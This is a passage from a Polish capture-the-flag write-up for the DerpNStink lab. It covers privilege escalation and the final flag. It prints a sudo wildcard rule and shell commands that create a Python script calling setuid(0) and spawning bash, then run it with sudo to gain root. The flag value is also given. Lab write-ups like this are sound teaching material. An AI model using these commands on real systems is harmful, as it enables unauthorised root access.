```
CC’s:
Resolution: Closing ticket. ticket notification.
```
W tekście mamy podany link do strony Self Help Web. Upewnijmy się co kryje się za tym adresem :)

![](https://github.com/d15rup7or/Labs/blob/master/DerpNStink/img/pastebin.png) 

Wygląda zupełnie jak wskazówka, która pozwoli nam eskalować nasze uprawnienia

## 5. Eskalacja uprawnień

`mrderp ALL=(ALL) /home/mrderp/binaries/derpy*`

Dalej już tylko kilka kroków i podniesienie uprawnień do poziomu `root`:
```
$ mkdir -p /home/mrderp/binaries
$ echo -e '#!/usr/bin/env python\nimport os\nos.setuid(0)\nos.setgid(0)\nos.system("/bin/bash/")' > /home/mrderp/binaries/derpy
$ chmod +x /home/mrderp/binaries/derpy
$ sudo /home/mrderp/binaries/derpy
```
![](https://github.com/d15rup7or/Labs/blob/master/DerpNStink/img/root.png)

I czas na odnalezienie ostatniej flagi:

![](https://github.com/d15rup7or/Labs/blob/master/DerpNStink/img/flag4.png)

`flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)`
